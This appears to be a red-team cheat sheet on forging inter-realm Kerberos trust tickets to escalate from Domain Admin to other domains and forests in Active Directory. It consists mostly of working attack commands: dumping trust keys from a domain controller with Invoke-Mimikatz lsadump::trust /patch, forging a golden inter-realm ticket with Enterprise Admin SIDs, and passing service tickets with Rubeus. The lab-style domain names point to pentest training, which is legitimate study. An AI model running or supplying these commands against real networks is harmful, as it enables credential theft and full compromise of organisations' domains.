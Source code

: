 # Domain Trusts - Forging Trust Tickets

🔎 View in Notion [Link](https://r3dbuck3t.notion.site/Domain-Trusts-Forging-Trust-Tickets-cad847c5afb8447cac284ae5c97ed38e)

📖 Blog Post: [Breaking Domain Trusts with Forged Trust Tickets](https://medium.com/r3d-buck3t/breaking-domain-trusts-with-forged-trust-tickets-5f03fb71cd72)

# Escalation Requirement 🚩

- Domain Admin privileges on the compromised domain machine.
- Domain Controller **Trust Key** to forge the **Inter-realm TGT tickets.**

# Escalation Vectors 🎯

- **Across Domains:** an attacker with DA privileges can hop to another domains within the forest.
- **Across Forests:** accessing another forests that have transitive 2 way trust relationship with the compromised forest.

# Tools

- **Invoke-Mimikatz**
- **Rubeus**

# Escalation Steps

1. **Dump trust keys  with Mimikatz [DA privs are required]**
    
    > **Invoke-Mimikatz -Command ‘“lsadump::trust /patch”’-ComputerName DC-Name**
    > 
    
    > **Invoke-Mimikatz -Command ‘“lsadump::trust /patch”’-ComputerName dcorp-dc**
    > 

1. **Create Inter-realm Ticket with Mimikatz**
    
    > **Invoke-Mimikatz -Command '"Kerberos::golden /user: Administrator  /domain: dollarcorp.moneycorp.local [child_domain]
    /sid: DomainAdmin_SID   /sids: Enterprise_Admin_SID   /rc4: Ticket HASH  /service:krbtgt   /target:moneycorp.local [root domain]
    /ticket: location to save the ticket"'**
    > 

1. **Request service tickets with Rubeus** 
    
    > **Rubeus.exe asktgs   /ticket: ticket Location  /service: service type [cifs/mcorpdc.moneycorp.local]  /dc: domain controller [mcorp-dc.moneycorp.local]  /ptt**
    
   
    
    # References
    
    [Enumerating Domain Trusts in Active Directory](https://medium.com/r3d-buck3t/enumerating-domain-trusts-in-active-directory-series-c85205fc862f)
    
    [](https://www.pentesteracademy.com/activedirectorylab)
    
    [From Domain Admin to Enterprise Admin](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/child-domain-da-to-ea-in-parent-domain)
    
    [Specifying Security and Administrative Boundaries](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc755979(v=ws.10)?redirectedfrom=MSDN)

